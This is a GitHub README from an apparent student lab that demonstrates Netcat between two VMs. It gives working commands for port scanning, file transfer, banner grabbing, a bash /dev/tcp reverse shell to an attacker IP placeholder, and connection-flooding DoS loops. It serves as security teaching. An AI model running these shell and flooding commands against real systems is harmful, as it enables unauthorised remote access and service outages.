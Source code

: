 # Netcat Security Demonstration

## 📌 Introduction

Netcat (nc) is a powerful networking utility that can be used for testing, debugging, and security assessments. This repository documents key security-related features of Netcat, demonstrating both **offensive** and **defensive** security techniques.

---

## 🔹 Features Demonstrated

1️⃣ **Port Scanning** – Identifying open ports on a remote system\
2️⃣ **File Transfer** – Sending files over a network using Netcat\
3️⃣ **Reverse Shell** – Gaining remote shell access\
4️⃣ **Banner Grabbing** – Extracting service information\
5️⃣ **DoS Attack** – Flooding a service with junk data

---

## ⚡ 1. Port Scanning

Netcat can be used as a simple port scanner to identify open ports on a system.

📌 **On VM2 (Listener), open a port:**

```bash
nc -lvnp 4444
```

📌 **On VM1 (Attacker), scan for open ports:**

```bash
nc -zv <VM2 IP> 30-5000
```

📌 **Expected Output:**

```
Connection to <VM2 IP> 4444 port [tcp/ssh] succeeded!
```

---

## 📂 2. File Transfer

Netcat allows file transfer between two systems over a chosen port.

📌 **On VM2 (Listener), receive the file:**

```bash
nc -lvnp 4444 > received_file.txt
```

📌 **On VM1 (Sender), send the file:**

```bash
cat file.txt | nc <VM2 IP> 4444
```

📌 **Verification:**

```bash
cat received_file.txt  # Should match original file.txt
```

---

## 🛠️ 3. Reverse Shell (Remote Code Execution)

An attacker can use Netcat to execute remote commands by setting up a **reverse shell**.

📌 **On VM1 (Attacker), listen for a connection:**

```bash
nc -lvnp 4444
```

📌 **On VM2 (Victim), send a reverse shell:**

```bash
/bin/bash -i >& /dev/tcp/<VM1 IP>/4444 0>&1
```

✅ **Now, VM1 has remote shell access to VM2.**

---

## 🕵️ 4. Banner Grabbing

Attackers use banner grabbing to identify running services on a target.

📌 **On VM1, check which services are running on VM2:**

```bash
nc <VM2 IP> 22
```

📌 **Expected Output (if SSH is running):**

```
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
```

---

## 💥 5. DoS Attack (Flooding a Service)

Netcat can be used to simulate a simple **Denial of Service (DoS) attack** by flooding a service with data.

📌 **On VM2 (Listener), open a port:**

```bash
nc -lvnp 4444
```

📌 **On VM1 (Attacker), send a flood of data:**

```bash
yes "DATA ATTACK" | nc <VM2 IP> 4444
```

📌 **Alternatively, launch multiple connections:**

```bash
for i in {1..1000}; do nc <VM2 IP> 4444 & done
```

✅ **After some time, VM2 may slow down or crash.**

---

## 📂 Resources

All images related to the execution of the above Netcat demonstrations can be found in the **resources/** folder of this repository. Navigate to the respective subdirectories for screenshots of each feature.

---

## 🏫 Contributors

| Name               | Roll Number | Batch |
| ------------------ | ----------- | ----- |
| Aditya Kothari     | 16010122329 | C1    |
| Prashant Prajapati | 16010122322 | C1    |
| Nishar Kunj        | 16010123810 | C2    |


